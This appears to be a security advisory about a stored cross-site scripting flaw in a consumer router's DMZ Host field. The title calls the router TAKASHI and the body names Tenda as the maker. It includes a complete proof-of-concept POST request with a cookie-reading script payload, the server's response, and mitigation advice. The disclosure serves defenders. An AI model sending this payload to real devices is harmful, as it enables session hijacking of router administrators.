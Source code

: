 # TAKASHI Wireless Instant Router and Repeater - XSS Vulnerability

## Overview
A stored cross-site scripting (XSS) vulnerability has been identified in the TAKASHI Wireless Instant Router and Repeater (Model A5) running firmware version **V5.07.38_AAL03** with hardware version **V3.0**. This vulnerability arises due to improper sanitization of user input in the `DMZ Host` IP address field.

## Affected Model
- **Model**: A5
- **Manufacturer**: Tenda 
- **Software Version**: V5.07.38_AAL03  
- **Hardware Version**: V3.0  

## Vulnerability Details
The web application attempts to filter input using a JavaScript function on the client side. However, this validation can be bypassed by sending a direct HTTP request to the web server, leading to a stored XSS vulnerability. Any user visiting the `DMZ Host` section of the web application will have the injected script executed in their browser.

### Exploit Request
The following `POST` request demonstrates the XSS injection:

```
POST /goform/VirSerDMZ HTTP/1.1
Host: 192.168.2.1
Content-Length: 56
Cache-Control: max-age=0
Origin: http://192.168.2.1
DNT: 1
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/134.0.0.0 Safari/537.36 Edg/134.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.2.1/nat_dmz.asp
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9,nl;q=0.8
Cookie: admin:language=LOL
Connection: keep-alive

GO=nat_dmz.asp&dmzip=`</script><script>alert(document.cookie);</script>`
```

### Response
The request is processed successfully, redirecting the user back to the `nat_dmz.asp` page while storing the malicious script:

```
HTTP/1.0 302 Redirect
Server: GoAhead-Webs
Date: Thu Jan 01 00:53:41 1970
Pragma: no-cache
Cache-Control: no-cache
Content-Type: text/html
Location: http://192.168.2.1/nat_dmz.asp

<html>
<head></head>
<body>
    This document has moved to a new <span><a href="http://192.168.2.1/nat_dmz.asp">location</a></span>.<br>
    Please update your documents to reflect the new location.
</body>
</html>
```

## Impact
- Malicious JavaScript can be injected into the application.
- Users who visit the affected page will have their session cookies exposed.
- The attack could lead to session hijacking, phishing, or further exploitation.

## Mitigation
To mitigate this issue, the following steps should be taken:
1. **Server-side Input Validation**: Sanitize and validate user input before storing or reflecting it.
2. **Content Security Policy (CSP)**: Implement a strict CSP header to prevent inline script execution.
3. **Escaping Output**: Encode user input before rendering it in the browser.
4. **Disable Client-Side Validation Bypass**: Ensure all input validation occurs on the server-side in addition to any JavaScript validation.


## References
- [OWASP XSS Prevention Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/Cross_Site_Scripting_Prevention_Cheat_Sheet.html)
- [GoAhead Web Server](https://www.embedthis.com/goahead/)

## Disclaimer
This vulnerability report is for educational and research purposes only. The information provided should not be used for malicious activities. Always obtain proper authorization before testing security vulnerabilities on any system.

---

**Contributors**  
- William James Schleppegrell -> https://github.com/SteamPunk424
  
- Martyn Lodder -> https://github.com/rootofficial
